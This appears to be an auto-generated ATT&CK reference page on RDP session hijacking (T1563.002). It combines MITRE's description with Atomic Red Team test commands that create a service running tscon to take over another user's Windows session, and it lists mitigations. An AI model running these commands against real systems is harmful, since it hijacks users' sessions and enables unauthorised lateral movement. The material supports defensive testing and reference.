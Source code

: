 
# RDP Hijacking

## Description

### MITRE Description

> Adversaries may hijack a legitimate user’s remote desktop session to move laterally within an environment. Remote desktop is a common feature in operating systems. It allows a user to log into an interactive session with a system desktop graphical user interface on a remote system. Microsoft refers to its implementation of the Remote Desktop Protocol (RDP) as Remote Desktop Services (RDS).(Citation: TechNet Remote Desktop Services)

Adversaries may perform RDP session hijacking which involves stealing a legitimate user's remote session. Typically, a user is notified when someone else is trying to steal their session. With System permissions and using Terminal Services Console, `c:\windows\system32\tscon.exe [session number to be stolen]`, an adversary can hijack a session without the need for credentials or prompts to the user.(Citation: RDP Hijacking Korznikov) This can be done remotely or locally and with active or disconnected sessions.(Citation: RDP Hijacking Medium) It can also lead to [Remote System Discovery](https://attack.mitre.org/techniques/T1018) and Privilege Escalation by stealing a Domain Admin or higher privileged account session. All of this can be done by using native Windows commands, but it has also been added as a feature in red teaming tools.(Citation: Kali Redsnarf)

## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: ['SYSTEM']
* Platforms: ['Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1563/002

## Potential Commands

```
query user
sc.exe create sesshijack binpath= "cmd.exe /k tscon 1337 /dest:#{Destination_ID}"
net start sesshijack
query user
sc.exe create sesshijack binpath= "cmd.exe /k tscon #{Session_ID} /dest:rdp-tcp#55"
net start sesshijack
```

## Commands Dataset

```
[{'command': 'query user\n'
             'sc.exe create sesshijack binpath= "cmd.exe /k tscon 1337 '
             '/dest:#{Destination_ID}"\n'
             'net start sesshijack\n',
  'name': None,
  'source': 'atomics/T1563.002/T1563.002.yaml'},
 {'command': 'query user\n'
             'sc.exe create sesshijack binpath= "cmd.exe /k tscon '
             '#{Session_ID} /dest:rdp-tcp#55"\n'
             'net start sesshijack\n',
  'name': None,
  'source': 'atomics/T1563.002/T1563.002.yaml'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Remote Service Session Hijacking: RDP Hijacking': {'atomic_tests': [{'auto_generated_guid': 'a37ac520-b911-458e-8aed-c5f1576d9f46',
                                                                                               'description': 'RDP '
                                                                                                              'hijacking](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6) '
                                                                                                              '- '
                                                                                                              'how '
                                                                                                              'to '
                                                                                                              'hijack '
                                                                                                              'RDS '
                                                                                                              'and '
                                                                                                              'RemoteApp '
                                                                                                              'sessions '
                                                                                                              'transparently '
                                                                                                              'to '
                                                                                                              'move '
                                                                                                              'through '
                                                                                                              'an '
                                                                                                              'organization\n',
                                                                                               'executor': {'cleanup_command': 'sc.exe '
                                                                                                                               'delete '
                                                                                                                               'sesshijack '
                                                                                                                               '>nul '
                                                                                                                               '2>&1\n',
                                                                                                            'command': 'query '
                                                                                                                       'user\n'
                                                                                                                       'sc.exe '
                                                                                                                       'create '
                                                                                                                       'sesshijack '
                                                                                                                       'binpath= '
                                                                                                                       '"cmd.exe '
                                                                                                                       '/k '
                                                                                                                       'tscon '
                                                                                                                       '#{Session_ID} '
                                                                                                                       '/dest:#{Destination_ID}"\n'
                                                                                                                       'net '
                                                                                                                       'start '
                                                                                                                       'sesshijack\n',
                                                                                                            'elevation_required': True,
                                                                                                            'name': 'command_prompt'},
                                                                                               'input_arguments': {'Destination_ID': {'default': 'rdp-tcp#55',
                                                                                                                                      'description': 'Connect '
                                                                                                                                                     'the '
                                                                                                                                                     'session '
                                                                                                                                                     'of '
                                                                                                                                                     'another '
                                                                                                                                                     'user '
                                                                                                                                                     'to '
                                                                                                                                                     'a '
                                                                                                                                                     'different '
                                                                                                                                                     'session',
                                                                                                                                      'type': 'String'},
                                                                                                                   'Session_ID': {'default': '1337',
                                                                                                                                  'description': 'The '
                                                                                                                                                 'ID '
                                                                                                                                                 'of '
                                                                                                                                                 'the '
                                                                                                                                                 'session '
                                                                                                                                                 'to '
                                                                                                                                                 'which '
                                                                                                                                                 'you '
                                                                                                                                                 'want '
                                                                                                                                                 'to '
                                                                                                                                                 'connect',
                                                                                                                                  'type': 'String'}},
                                                                                               'name': 'RDP '
                                                                                                       'hijacking',
                                                                                               'supported_platforms': ['windows']}],
                                                                             'attack_technique': 'T1563.002',
                                                                             'display_name': 'Remote '
                                                                                             'Service '
                                                                                             'Session '
                                                                                             'Hijacking: '
                                                                                             'RDP '
                                                                                             'Hijacking'}}]
```

# Tactics


* [Lateral Movement](../tactics/Lateral-Movement.md)


# Mitigations


* [Disable or Remove Feature or Program](../mitigations/Disable-or-Remove-Feature-or-Program.md)

* [Limit Access to Resource Over Network](../mitigations/Limit-Access-to-Resource-Over-Network.md)
    
* [Audit](../mitigations/Audit.md)
    
* [User Account Management](../mitigations/User-Account-Management.md)
    
* [Privileged Account Management](../mitigations/Privileged-Account-Management.md)
    
* [Operating System Configuration](../mitigations/Operating-System-Configuration.md)
    
* [Network Segmentation](../mitigations/Network-Segmentation.md)
    

# Actors

None
